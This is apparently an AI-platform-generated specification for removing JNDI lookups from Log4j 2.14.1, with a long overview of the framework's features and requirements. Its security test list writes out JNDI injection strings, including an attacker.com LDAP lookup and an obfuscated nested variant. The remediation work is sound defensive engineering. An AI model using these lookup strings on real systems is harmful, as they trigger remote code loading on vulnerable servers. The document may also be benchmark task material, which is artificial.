# Technical Specification

# 0. SUMMARY OF CHANGES

## 0.1 USER INTENT RESTATEMENT

Based on the requirements, the Blitzy platform understands that the user requires immediate remediation of critical JNDI injection vulnerabilities in Apache Log4j 2.0-beta9 through 2.14.1 that allow remote code execution through malicious JNDI lookups. The platform must:

- Eliminate the ability for attackers to trigger JNDI lookups via ${jndi:...} patterns in log messages
- Apply minimal, surgical changes to the log4j-core module without disrupting other logging functionality
- Disable or remove JNDI lookup capabilities while preserving all other lookup mechanisms
- Implement fail-safe defaults that prevent JNDI resolution even in misconfigured environments
- Ensure compatibility with existing Log4j APIs and configuration formats
- Create a solution derived from first principles without using CVE-2021-44228 specific patches

## 0.2 TECHNICAL INTERPRETATION

This translates to the following technical objectives:

#### Primary Security Fix
- **Remove JNDI Lookup Capability**: The JndiLookup class must be eliminated from the log4j-core module to prevent any JNDI-based variable substitution
- **Disable by Default**: Implement system property `log4j2.disable.jndi=true` as a fail-safe mechanism
- **Prevent Remote Loading**: Block any attempts to resolve JNDI names that could lead to remote class loading

#### Implementation Strategy
The fix targets the Log4j lookup subsystem, specifically:
1. Removing the `org.apache.logging.log4j.core.lookup.JndiLookup` plugin entirely
2. Modifying the `Interpolator` class to skip JNDI lookup registration
3. Adding defensive checks in `StrSubstitutor` to reject JNDI patterns
4. Implementing configuration-level controls to disable JNDI globally

## 0.3 IMPLEMENTATION MAPPING

#### Core Files to Modify

#### Primary Target - JNDI Lookup Removal
**File**: `log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java`
- **Action**: DELETE entire file
- **Rationale**: Complete removal ensures no JNDI lookup functionality can be invoked
- **Impact**: Breaks any configuration using ${jndi:...} patterns (intended security outcome)

#### Interpolator Protection
**File**: `log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java`
- **Action**: MODIFY constructor to skip JNDI lookup registration
- **Changes**:
  - Add check for system property `log4j2.disable.jndi`
  - Remove JndiLookup from strLookupMap even if class is present
  - Log warning if JNDI lookup attempts are detected
- **Rationale**: Prevents JNDI lookup from being available even if class somehow remains

#### Pattern Substitution Defense
**File**: `log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/StrSubstitutor.java`
- **Action**: MODIFY substitute method to reject JNDI patterns
- **Changes**:
  - Add pattern detection for "jndi:" prefix
  - Return empty string or throw exception for JNDI attempts
  - Log security warning when JNDI patterns are blocked
- **Rationale**: Defense in depth - blocks JNDI even if lookup is somehow registered

#### Configuration Controls
**File**: `log4j-core/src/main/java/org/apache/logging/log4j/core/config/AbstractConfiguration.java`
- **Action**: MODIFY initialization to respect JNDI disable flag
- **Changes**:
  - Check system property `log4j2.disable.jndi` during setup
  - Skip JNDI-related plugin loading if disabled
  - Add configuration attribute to disable JNDI lookups
- **Rationale**: Provides administrative control over JNDI functionality

#### Supporting File Updates

#### Plugin Metadata
**File**: `log4j-core/src/main/resources/META-INF/org/apache/logging/log4j/core/config/plugins/Log4j2Plugins.dat`
- **Action**: REGENERATE after JndiLookup removal
- **Rationale**: Ensures plugin registry doesn't reference deleted class

#### Test Removal
**File**: `log4j-core/src/test/java/org/apache/logging/log4j/core/lookup/JndiLookupTest.java`
- **Action**: DELETE entire file
- **Rationale**: Test is no longer applicable with JNDI functionality removed

#### Documentation Updates

#### Security Notice
**File**: `SECURITY.md`
- **Action**: ADD vulnerability mitigation notice
- **Content**: Document JNDI lookup removal as security hardening measure

## 0.4 SCOPE BOUNDARIES

#### In Scope
- Complete removal of JNDI lookup functionality from log4j-core
- System property controls for JNDI disablement
- Defensive pattern blocking in string substitution
- Preservation of all other lookup mechanisms (env, sys, map, etc.)
- Maintaining API compatibility for non-JNDI lookups
- Test updates to reflect JNDI removal

#### Out of Scope
- Changes to log4j-api module
- Modifications to other lookup implementations
- Updates to appenders, layouts, or filters
- Performance optimizations unrelated to security
- Feature enhancements or new functionality
- Changes to build configuration or dependencies
- Modifications to logging behavior for non-JNDI patterns

## 0.5 SECURITY VALIDATION REQUIREMENTS

#### Verification Tests
1. **JNDI Pattern Blocking**: Confirm ${jndi:ldap://attacker.com/a} returns empty/null
2. **LDAP URL Rejection**: Verify no network connections to LDAP servers
3. **RMI URL Rejection**: Ensure ${jndi:rmi://...} patterns fail safely
4. **DNS Lookup Prevention**: Block ${jndi:dns://...} resolution attempts
5. **Nested Pattern Defense**: Test ${${lower:jndi}:ldap://...} variations

#### Security Assertions
- No javax.naming.InitialContext lookups performed
- No remote class loading via JNDI
- No information disclosure through JNDI lookups
- Fail-safe behavior when JNDI patterns encountered

## 0.6 SPECIAL IMPLEMENTATION NOTES

#### Critical Constraints
1. **NO CVE REFERENCES**: Solution must not reference or implement CVE-2021-44228 fixes
2. **MINIMAL CHANGES**: Touch only files necessary for JNDI removal
3. **PRESERVE FUNCTIONALITY**: All non-JNDI features must work identically
4. **FAIL SAFE**: Default behavior must block JNDI without configuration

#### Risk Mitigation
- If legitimate JNDI usage exists, document migration path
- Provide clear error messages when JNDI patterns are blocked
- Log security events when JNDI attempts are detected
- Consider temporary compatibility flag for gradual migration

# 1. INTRODUCTION

## 1.1 EXECUTIVE SUMMARY

### 1.1.1 Project Overview

Apache Log4j 2 is an industrial-grade Java logging framework that serves as a complete rewrite of Log4j 1.x, addressing fundamental architectural problems in both Log4j 1.x and Logback while providing enterprise-ready logging capabilities. Maintained by the Apache Software Foundation since 1999 and distributed under the Apache License 2.0, this open-source framework has become a critical infrastructure component for Java-based applications worldwide.

The current codebase represents version 2.14.1, which incorporates significant architectural improvements including garbage-free logging modes, asynchronous processing capabilities, and a comprehensive plugin architecture that enables extensive customization and integration possibilities.

### 1.1.2 Core Business Problem Being Solved

Enterprise applications require reliable, high-performance logging infrastructure for comprehensive application monitoring, debugging, and auditing capabilities. Traditional logging frameworks suffer from performance bottlenecks, memory allocation issues, and limited extensibility that can impact mission-critical applications.

Log4j 2 addresses these fundamental challenges by providing:
- **Performance Optimization**: Eliminates performance overhead through garbage-free logging and asynchronous processing
- **Reliability Assurance**: Enables organizations to place trust in Log4j for protecting mission-critical data
- **Operational Excellence**: Supports identification of root causes in enterprise applications through multi-level error messages and business-critical checkpoint logging

### 1.1.3 Key Stakeholders and Users

| Stakeholder Category | Primary Users | Use Cases |
|---|---|---|
| **Development Teams** | Java developers building enterprise applications | Application debugging, performance monitoring, audit trails |
| **Industry Sectors** | Financial services, e-commerce, telecommunications, information technology | Mission-critical logging, compliance reporting, operational monitoring |
| **Major Platforms** | Cloudflare, iCloud, Minecraft: Java Edition, Steam, Tencent QQ, Twitter | Large-scale distributed logging, high-throughput event processing |

The development ecosystem includes the Apache Logging PMC (Project Management Committee) with Matt Sicker as PMC Chair, along with a global community of contributors and maintainers.

### 1.1.4 Expected Business Impact and Value Proposition

Log4j 2 delivers substantial business value through its position as critical infrastructure supporting millions of servers globally. The Apache Software Foundation's assignment of the maximum CVSS severity rating of 10 to Log4Shell demonstrates the framework's widespread adoption and business criticality.

**Performance Value Proposition:**
- Minimizes performance overhead with options for latency optimization or throughput maximization
- Enables garbage-free logging to reduce memory allocation impact
- Supports asynchronous processing using LMAX Disruptor for high-throughput scenarios

**Operational Value Proposition:**
- Enables successful root cause identification in enterprise applications
- Provides effective multi-level error message handling
- Maintains reliable log files for production issue resolution
- Supports automatic configuration reloading without event loss

## 1.2 SYSTEM OVERVIEW

### 1.2.1 Project Context

#### Business Context and Market Positioning

Apache Log4j 2 operates within the broader Apache Logging ecosystem, which includes implementations for multiple platforms (Log4net, Log4cxx, log4php). The framework serves as a critical upgrade path from Log4j 1.x, which reached end-of-life in August 2015, while addressing fundamental limitations present in java.util.logging, Log4j 1.x, and Logback.

The framework's market position is reinforced by its adoption across diverse consumer and enterprise services, websites, and applications, as well as operational technology products requiring robust security and performance information logging.

#### Current System Limitations

Log4j 2 specifically addresses several architectural limitations of previous logging frameworks:
- **Performance Bottlenecks**: Previous frameworks suffered from synchronous processing limitations and excessive memory allocation
- **Configuration Rigidity**: Limited dynamic configuration capabilities without system restart
- **Extensibility Constraints**: Monolithic architectures that restricted custom component integration
- **Compatibility Issues**: Backwards compatibility problems requiring significant application modifications

#### Integration with Existing Enterprise Landscape

The framework provides comprehensive integration capabilities through specialized modules:
- **Framework Integration**: log4j-web, log4j-spring-boot, log4j-spring-cloud-config
- **Legacy Bridge Support**: log4j-slf4j-impl, log4j-jcl, log4j-jul, log4j-1.2-api
- **Data Store Integration**: log4j-cassandra, log4j-mongodb, log4j-kafka, log4j-flume-ng
- **Application Server Support**: OSGi bundle compatibility for modular applications

### 1.2.2 High-Level Description

#### Primary System Capabilities

Apache Log4j 2 functions as a versatile, industrial-grade Java logging framework composed of an API, its implementation, and deployment assistance components. The framework provides comprehensive logging capabilities including:

- **Advanced Message Support**: Logging of Messages and lambda expressions with more methods than SLF4J
- **Format Flexibility**: Support for java.text.MessageFormat syntax and printf-style messages
- **Multi-Format Output**: JSON, XML, CSV, and Syslog format support
- **Hierarchical Configuration**: Logger configuration with inheritance and level management
- **Dynamic Reconfiguration**: Automatic configuration reloading without losing events

#### Major System Components

```mermaid
graph TB
    A[log4j-api] --> B[Core Public API]
    A --> C[Loggers, Levels, Markers]
    
    D[log4j-core] --> E[Implementation Engine]
    D --> F[Plugin Framework]
    
    G[Integration Modules] --> H[log4j-web]
    G --> I[log4j-spring-boot]
    G --> J[log4j-spring-cloud-config]
    
    K[Bridge Modules] --> L[log4j-slf4j-impl]
    K --> M[log4j-jcl]
    K --> N[log4j-jul]
    
    O[Appender Modules] --> P[log4j-cassandra]
    O --> Q[log4j-mongodb]
    O --> R[log4j-kafka]
    
    S[Specialized Modules] --> T[log4j-layout-template-json]
    S --> U[log4j-iostreams]
    S --> V[log4j-taglib]
```

#### Core Technical Approach

The framework employs a layered architecture with clear separation of concerns:

- **API Separation**: Complete isolation of public API from implementation details
- **Plugin Architecture**: Extensible component system for appenders, layouts, and filters
- **Multi-Release Support**: Java 9+ feature utilization through multi-release JAR packaging
- **Asynchronous Processing**: LMAX Disruptor integration for high-throughput scenarios
- **Modular Design**: OSGi bundle support enabling modular application deployment

### 1.2.3 Success Criteria

#### Measurable Objectives

| Objective Category | Specific Metrics | Target Criteria |
|---|---|---|
| **Performance** | Peak throughput capability, maximum sustained throughput, response time under load | Sub-millisecond latency, >1M events/second |
| **Reliability** | Configuration reload success rate, event loss prevention | 99.9% uptime, zero event loss during reconfiguration |
| **Security** | Vulnerability response time, patch deployment frequency | <24 hour response, quarterly security assessments |

#### Critical Success Factors

- **Automatic Configuration Management**: Successful reload of configuration modifications without event loss during reconfiguration
- **Performance Optimization**: Maintenance of minimal performance overhead across various deployment scenarios
- **Security Posture**: Regular vulnerability assessments and rapid patch deployment, especially following Log4Shell incident
- **Ecosystem Integration**: Seamless compatibility with major Java frameworks and application servers

#### Key Performance Indicators (KPIs)

- **Adoption Metrics**: Widespread deployment across enterprise Java applications
- **Performance Benchmarks**: Sustained high-throughput event processing with minimal latency impact
- **Reliability Measures**: Successful operational deployment in mission-critical environments
- **Security Metrics**: Timely vulnerability disclosure and remediation processes

## 1.3 SCOPE

### 1.3.1 In-Scope Elements

#### Core Features and Functionalities

**Logging API Capabilities:**
- Core logging API supporting various message types (String, Object, Map)
- Support for logging Messages and lambda expressions
- Hierarchical logger configuration with level inheritance
- Custom log levels and markers for advanced categorization
- Diagnostic contexts (MDC/NDC) for request tracking

**Output and Processing Features:**
- Multiple appender types targeting files, network sockets, databases, SMTP servers
- Layout formats supporting CSV, HTML, JSON, Syslog rendering
- Filtering capabilities based on log event rates, regular expressions, scripts, time
- Lookup mechanisms for system properties, environment variables, log event fields
- Both synchronous and asynchronous logging modes

**Integration and Compatibility:**
- Bridge implementations for other logging APIs (SLF4J, JCL, JUL)
- Integration with major frameworks and application servers
- Support for structured logging in modern applications

#### Implementation Boundaries

| Boundary Category | Scope Definition |
|---|---|
| **Platform Support** | Java 7+ requirement (Java 8+ for version 2.4 and greater) |
| **Application Scope** | JVM-based applications exclusively |
| **Architecture Focus** | Structured logging for modern enterprise applications |
| **Processing Modes** | Both synchronous and asynchronous logging capabilities |

### 1.3.2 Out-of-Scope Elements

#### Explicitly Excluded Features

**Compatibility Limitations:**
- Log4j 2 is not backwards compatible with 1.x versions (adapter available separately)
- Direct support for non-JVM languages (separate ports exist for other platforms)

**Security and Data Handling:**
- Log4j cannot generically support log masking of sensitive data
- Log analysis or visualization tools (external tools handle this functionality)
- Log storage solutions (delegated to appender implementations)

**Platform and Language Constraints:**
- Non-JVM language support (requires separate implementations)
- Real-time log analysis capabilities (external tools required)
- Log data visualization and dashboard functionality

#### Future Phase Considerations

Future development phases may address:
- Enhanced cloud-native deployment patterns
- Advanced log analytics integration
- Extended platform support for emerging JVM languages
- Additional security features for sensitive data handling

#### References

**Files Examined:**
- `README.md` - Project overview, usage examples, and requirements
- `SECURITY.md` - Security policy and vulnerability reporting procedures
- `RELEASE-NOTES.md` - Version 2.14.1 features and fixes documentation
- `pom.xml` - Project structure, modules, and dependency configuration
- `src/site/xdoc/manual/architecture.xml` - Detailed architecture documentation
- `src/site/xdoc/performance.xml` - Performance considerations and optimization
- `log4j-api/pom.xml` - API module configuration and dependencies
- `log4j-api/revapi.json` - API compatibility rules and versioning
- `log4j-core/pom.xml` - Core implementation configuration
- `log4j-core/revapi.json` - Core compatibility rules and versioning

**Folders Explored:**
- `(root)/` - Complete project structure overview
- `log4j-api/` - API module structure and components
- `log4j-core/` - Core implementation structure and components
- `src/` - Documentation source structure and content

**External Sources:**
- Apache Log4j Security page - Current security model and vulnerabilities
- CISA guidance - Log4Shell vulnerability impact assessment
- TrustRadius reviews - Real-world use cases and benefits
- Wikipedia - Historical context and Log4Shell details
- Apache Log4j main site - Feature highlights and capabilities
- Various technical articles - Business impact and technical analysis

# 2. PRODUCT REQUIREMENTS

## 2.1 FEATURE CATALOG

### 2.1.1 Core Framework Features

#### F-001: Core Logging API
**Feature Metadata:**
- **Feature ID**: F-001
- **Feature Name**: Core Logging API
- **Feature Category**: Core Framework
- **Priority Level**: Critical
- **Status**: Completed

**Description:**
- **Overview**: Provides the fundamental logging API with hierarchical loggers, standardized logging levels, and comprehensive message abstraction supporting String, Object, and lambda expressions
- **Business Value**: Enables structured application logging with minimal performance impact and clear separation between API and implementation, supporting enterprise debugging and monitoring requirements
- **User Benefits**: Intuitive API for developers with support for parameterized messages, lazy evaluation, and garbage-free operation modes
- **Technical Context**: Implements facade pattern with pluggable LoggerContext providers, supporting both synchronous and asynchronous logging modes through clean abstraction layers

**Dependencies:**
- **Prerequisite Features**: None (foundational feature)
- **System Dependencies**: Java 7+ runtime environment (Java 8+ for version 2.4+)
- **External Dependencies**: None
- **Integration Requirements**: Must maintain binary compatibility with existing Log4j 2.x applications

#### F-002: Plugin Architecture Framework
**Feature Metadata:**
- **Feature ID**: F-002
- **Feature Name**: Plugin Architecture Framework
- **Feature Category**: Core Framework
- **Priority Level**: Critical
- **Status**: Completed

**Description:**
- **Overview**: Annotation-driven plugin discovery and registration system enabling extensible components for appenders, layouts, filters, and lookups
- **Business Value**: Allows customization and extension without modifying core codebase, reducing maintenance overhead and enabling rapid adaptation to changing requirements
- **User Benefits**: Easy addition of custom components through simple annotations, automatic discovery and registration of plugins
- **Technical Context**: Uses compile-time annotation processing to generate plugin metadata with runtime scanning for plugin discovery across different classloader environments

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API)
- **System Dependencies**: Java annotation processing tools
- **External Dependencies**: None
- **Integration Requirements**: Plugin scanning must work across different classloader environments including OSGi and application servers

#### F-003: Configuration Management System
**Feature Metadata:**
- **Feature ID**: F-003
- **Feature Name**: Configuration Management System
- **Feature Category**: Configuration
- **Priority Level**: Critical
- **Status**: Completed

**Description:**
- **Overview**: Multi-format configuration support (XML, JSON, YAML, Properties) with automatic reload capabilities and property substitution
- **Business Value**: Flexible deployment options with zero-downtime configuration updates, reducing operational overhead and enabling dynamic tuning
- **User Benefits**: Configure logging through multiple formats with hot-reload support, property substitution from various sources
- **Technical Context**: File watching with configurable check intervals, composite configuration support for multiple sources, integration with lookup system

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: File system access for configuration files
- **External Dependencies**: Jackson libraries for JSON/YAML support
- **Integration Requirements**: Must support property substitution from system properties, environment variables, and custom lookups

### 2.1.2 Output Destination Features

#### F-004: File-Based Appenders
**Feature Metadata:**
- **Feature ID**: F-004
- **Feature Name**: File-Based Appenders
- **Feature Category**: Output Destinations
- **Priority Level**: Critical
- **Status**: Completed

**Description:**
- **Overview**: Write log events to files with rolling and archiving capabilities including size-based, time-based, and custom triggering policies
- **Business Value**: Persistent log storage with automatic management of disk space and long-term retention policies
- **User Benefits**: Configurable file rotation based on size, time, or custom policies with compression support for space efficiency
- **Technical Context**: Implements FileAppender and RollingFileAppender with pluggable triggering and rollover strategies, thread-safe operations

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: File system write permissions
- **External Dependencies**: Optional compression libraries (XZ, GZIP)
- **Integration Requirements**: Thread-safe file operations across multiple appenders

#### F-005: Network Appenders
**Feature Metadata:**
- **Feature ID**: F-005
- **Feature Name**: Network Appenders
- **Feature Category**: Output Destinations
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: Send log events over network protocols including TCP, UDP, and SSL/TLS with automatic reconnection and buffering capabilities
- **Business Value**: Centralized log aggregation and real-time monitoring capabilities for distributed systems
- **User Benefits**: Remote logging with automatic reconnection, buffering, and failover support for high availability
- **Technical Context**: Implements SocketAppender and SyslogAppender with configurable protocols, formats, and connection management

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: Network connectivity
- **External Dependencies**: SSL/TLS libraries for secure connections
- **Integration Requirements**: Compatible with standard syslog servers and log aggregation systems

#### F-006: Database Appenders
**Feature Metadata:**
- **Feature ID**: F-006
- **Feature Name**: Database Appenders
- **Feature Category**: Output Destinations
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: Persist log events to relational and NoSQL databases with flexible column mapping and batch processing
- **Business Value**: Structured storage enabling complex queries, reporting, and long-term retention with business intelligence integration
- **User Benefits**: Flexible column mapping, connection pooling, batch processing for performance optimization
- **Technical Context**: JDBC appender with pluggable connection sources, JPA support, NoSQL adapters for MongoDB and Cassandra

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: Database drivers and connection infrastructure
- **External Dependencies**: JDBC drivers, JPA providers, connection pool libraries (DBCP2)
- **Integration Requirements**: Support for various database vendors and connection management strategies

#### F-007: Message Queue Appenders
**Feature Metadata:**
- **Feature ID**: F-007
- **Feature Name**: Message Queue Appenders
- **Feature Category**: Output Destinations
- **Priority Level**: Medium
- **Status**: Completed

**Description:**
- **Overview**: Publish log events to message queuing systems including Kafka, Flume, and JeroMQ/ZeroMQ
- **Business Value**: Asynchronous log processing and integration with event-driven architectures for scalable systems
- **User Benefits**: Reliable message delivery with configurable serialization formats and producer configurations
- **Technical Context**: Kafka, Flume, JeroMQ/ZeroMQ appenders with producer configuration and message format support

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: Message broker connectivity
- **External Dependencies**: Kafka clients, Flume SDK, ZeroMQ libraries
- **Integration Requirements**: Compatible with standard message formats and protocols

### 2.1.3 Processing and Formatting Features

#### F-008: Layout Formatting System
**Feature Metadata:**
- **Feature ID**: F-008
- **Feature Name**: Layout Formatting System
- **Feature Category**: Output Formatting
- **Priority Level**: Critical
- **Status**: Completed

**Description:**
- **Overview**: Transform log events into various output formats including pattern-based, structured (JSON, XML), and custom layouts
- **Business Value**: Flexible log formatting to meet diverse requirements for different output destinations and analysis tools
- **User Benefits**: Pattern-based layouts with extensive converters, structured formats for machine processing, CSV layouts for spreadsheet analysis
- **Technical Context**: PatternLayout with extensive converters, JsonLayout, XmlLayout, CSV layouts with configurable formatting options

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: None
- **External Dependencies**: Jackson for JSON/XML processing
- **Integration Requirements**: Must support all appender types and provide consistent formatting

#### F-009: Filtering Framework
**Feature Metadata:**
- **Feature ID**: F-009
- **Feature Name**: Filtering Framework
- **Feature Category**: Event Processing
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: Control which log events are processed based on various criteria including level, time, rate limiting, and custom filters
- **Business Value**: Reduce log volume and focus on relevant events, improving performance and storage efficiency
- **User Benefits**: Level-based, time-based, rate-limiting, regular expression, and custom script filters
- **Technical Context**: Filter chains with ACCEPT/DENY/NEUTRAL results, applicable at logger and appender levels

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: None
- **External Dependencies**: Optional scripting engines for script filters
- **Integration Requirements**: Filters applicable at logger and appender levels with consistent behavior

#### F-010: Variable Lookup System
**Feature Metadata:**
- **Feature ID**: F-010
- **Feature Name**: Variable Lookup System
- **Feature Category**: Configuration Enhancement
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: Runtime variable substitution in configuration and log messages supporting system properties, environment variables, dates, and custom values
- **Business Value**: Dynamic configuration based on environment, enabling flexible deployment across different environments
- **User Benefits**: Reference system properties, environment variables, dates, JNDI resources, and custom lookup providers
- **Technical Context**: Extensible lookup mechanism with built-in providers and support for custom lookup implementations

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture), F-003 (Configuration System)
- **System Dependencies**: Access to system properties and environment variables
- **External Dependencies**: Optional JNDI for JNDI lookups
- **Integration Requirements**: Thread-safe lookup resolution with caching support

### 2.1.4 Performance and Integration Features

#### F-011: Asynchronous Logging
**Feature Metadata:**
- **Feature ID**: F-011
- **Feature Name**: Asynchronous Logging
- **Feature Category**: Performance
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: Non-blocking logging with minimal impact on application threads using LMAX Disruptor technology
- **Business Value**: Improved application performance and throughput for high-volume logging scenarios
- **User Benefits**: Configurable async loggers and appenders with performance tuning options for latency vs throughput optimization
- **Technical Context**: LMAX Disruptor-based implementation for lock-free operations with configurable buffer sizes and strategies

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: Multi-core processors for optimal performance
- **External Dependencies**: LMAX Disruptor library
- **Integration Requirements**: Transparent to existing synchronous configurations with backward compatibility

#### F-012: Web Application Integration
**Feature Metadata:**
- **Feature ID**: F-012
- **Feature Name**: Web Application Integration
- **Feature Category**: Integration
- **Priority Level**: Medium
- **Status**: Completed

**Description:**
- **Overview**: Servlet container integration with proper lifecycle management and context cleanup
- **Business Value**: Reliable logging in web applications with clean shutdown preventing resource leaks
- **User Benefits**: Automatic configuration and context cleanup in servlet environments with minimal configuration
- **Technical Context**: ServletContainerInitializer, context listeners, and filters for proper lifecycle management

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture), F-003 (Configuration System)
- **System Dependencies**: Servlet 3.0+ container
- **External Dependencies**: Servlet API
- **Integration Requirements**: Compatible with major application servers (Tomcat, Jetty, WebLogic, WebSphere)

#### F-013: Spring Framework Integration
**Feature Metadata:**
- **Feature ID**: F-013
- **Feature Name**: Spring Framework Integration
- **Feature Category**: Integration
- **Priority Level**: Medium
- **Status**: Completed

**Description:**
- **Overview**: Native Spring Boot and Spring Cloud Config support with auto-configuration capabilities
- **Business Value**: Seamless integration with Spring ecosystem reducing configuration complexity
- **User Benefits**: Spring property lookup, environment-aware configuration, auto-configuration with Spring Boot
- **Technical Context**: Custom LoggingSystem implementation, Spring-aware lookups, integration with Spring Boot actuator

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture), F-010 (Variable Lookup System)
- **System Dependencies**: Spring Framework 4.x+
- **External Dependencies**: Spring Boot, Spring Cloud Config
- **Integration Requirements**: Auto-configuration with Spring Boot, compatibility with Spring profiles

#### F-014: Legacy Compatibility Bridge
**Feature Metadata:**
- **Feature ID**: F-014
- **Feature Name**: Legacy Compatibility Bridge
- **Feature Category**: Migration Support
- **Priority Level**: High
- **Status**: Completed

**Description:**
- **Overview**: API compatibility layer for Log4j 1.x applications enabling migration without code changes
- **Business Value**: Enable migration from Log4j 1.x without application code changes, reducing migration costs
- **User Benefits**: Drop-in replacement for log4j 1.x with configuration conversion utilities
- **Technical Context**: Facade implementation delegating to Log4j 2 core with compatibility adapters

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-002 (Plugin Architecture)
- **System Dependencies**: None
- **External Dependencies**: None
- **Integration Requirements**: Binary compatible with Log4j 1.x API while leveraging Log4j 2 performance

#### F-015: Garbage-Free Logging
**Feature Metadata:**
- **Feature ID**: F-015
- **Feature Name**: Garbage-Free Logging
- **Feature Category**: Performance
- **Priority Level**: Medium
- **Status**: Completed

**Description:**
- **Overview**: Minimize object allocation during logging operations to reduce garbage collection pressure
- **Business Value**: Reduced GC pressure in high-throughput applications enabling predictable performance
- **User Benefits**: Predictable performance with minimal memory allocation, especially beneficial for latency-sensitive applications
- **Technical Context**: Object pooling, reusable buffers, and allocation-free code paths for common logging patterns

**Dependencies:**
- **Prerequisite Features**: F-001 (Core Logging API), F-008 (Layout Formatting System)
- **System Dependencies**: Java 7+ with appropriate GC tuning
- **External Dependencies**: None
- **Integration Requirements**: Transparent operation with existing configurations

## 2.2 FUNCTIONAL REQUIREMENTS TABLE

### 2.2.1 Core Logging API Requirements

| Requirement ID | Description | Acceptance Criteria | Priority |
|---------------|-------------|-------------------|----------|
| F-001-RQ-001 | Create hierarchical logger instances | Logger hierarchy follows package naming convention; child loggers inherit parent configuration unless explicitly overridden | Must-Have |
| F-001-RQ-002 | Support standard log levels | TRACE, DEBUG, INFO, WARN, ERROR, FATAL levels with proper ordering and filtering behavior | Must-Have |
| F-001-RQ-003 | Provide message abstraction | Support for String, Object, Message, and lambda expressions with lazy evaluation for performance | Must-Have |
| F-001-RQ-004 | Enable marker support | Markers can be attached to log events for filtering and routing with hierarchical marker relationships | Should-Have |

### 2.2.2 Configuration Management Requirements

| Requirement ID | Description | Acceptance Criteria | Priority |
|---------------|-------------|-------------------|----------|
| F-003-RQ-001 | Support multiple configuration formats | XML, JSON, YAML, and Properties files are recognized, parsed, and processed correctly | Must-Have |
| F-003-RQ-002 | Enable automatic configuration reload | File changes detected within configurable interval; configuration updated without event loss | Should-Have |
| F-003-RQ-003 | Allow property substitution | ${} syntax resolves to system properties, environment variables, and custom lookups | Must-Have |
| F-003-RQ-004 | Support composite configurations | Multiple configuration sources merged with defined precedence rules | Could-Have |

### 2.2.3 Appender Requirements

| Requirement ID | Description | Acceptance Criteria | Priority |
|---------------|-------------|-------------------|----------|
| F-004-RQ-001 | Implement file rotation by size | Files rotate when size threshold exceeded; archived files compressed if configured | Must-Have |
| F-004-RQ-002 | Implement file rotation by time | Files rotate based on time patterns (daily, hourly, etc.) with proper timestamp handling | Must-Have |
| F-005-RQ-001 | Support TCP/UDP protocols | Socket appender works with both TCP and UDP; handles connection failures gracefully | Must-Have |
| F-005-RQ-002 | Enable SSL/TLS encryption | Secure socket connections with certificate validation and configurable cipher suites | Should-Have |
| F-006-RQ-001 | Enable batch database inserts | Database appender buffers events and inserts in configurable batch sizes | Should-Have |
| F-007-RQ-001 | Support message queue protocols | Kafka, JMS, and ZeroMQ protocols supported with proper error handling | Should-Have |

### 2.2.4 Performance Requirements

| Requirement ID | Description | Acceptance Criteria | Priority |
|---------------|-------------|-------------------|----------|
| F-011-RQ-001 | Achieve sub-millisecond latency | 99th percentile latency < 1ms for async logging under normal load | Should-Have |
| F-011-RQ-002 | Support high throughput | Throughput exceeds 1 million events/second on standard hardware configuration | Should-Have |
| F-015-RQ-001 | Minimize object allocations | Zero allocations in steady-state for common logging patterns when garbage-free mode enabled | Should-Have |
| F-015-RQ-002 | Reuse buffers efficiently | String builders and byte buffers are pooled and reused across logging operations | Must-Have |

### 2.2.5 Integration Requirements

| Requirement ID | Description | Acceptance Criteria | Priority |
|---------------|-------------|-------------------|----------|
| F-012-RQ-001 | Support servlet lifecycle | Proper initialization and cleanup in servlet containers without resource leaks | Must-Have |
| F-013-RQ-001 | Enable Spring auto-configuration | Automatic configuration in Spring Boot applications with profile-aware settings | Should-Have |
| F-014-RQ-001 | Provide Log4j 1.x compatibility | Binary compatibility with Log4j 1.x API while using Log4j 2 implementation | Must-Have |

## 2.3 FEATURE RELATIONSHIPS

### 2.3.1 Feature Dependency Map



### 2.3.2 Integration Points

**Core Framework Integration:**
- All appenders (F-004 through F-007) share common layout (F-008) and filter (F-009) frameworks
- Plugin architecture (F-002) provides discovery and registration for all extensible components
- Configuration system (F-003) manages all component configurations with lookup system (F-010) integration

**Performance Integration:**
- Asynchronous logging (F-011) integrates with all appenders for non-blocking operation
- Garbage-free logging (F-015) optimizes layout formatting (F-008) and core API (F-001) operations
- Buffer pooling shared across async logging and garbage-free implementations

**External Integration:**
- Web integration (F-012) and Spring integration (F-013) both extend core configuration (F-003)
- Legacy bridge (F-014) provides facade over core API (F-001) for backward compatibility
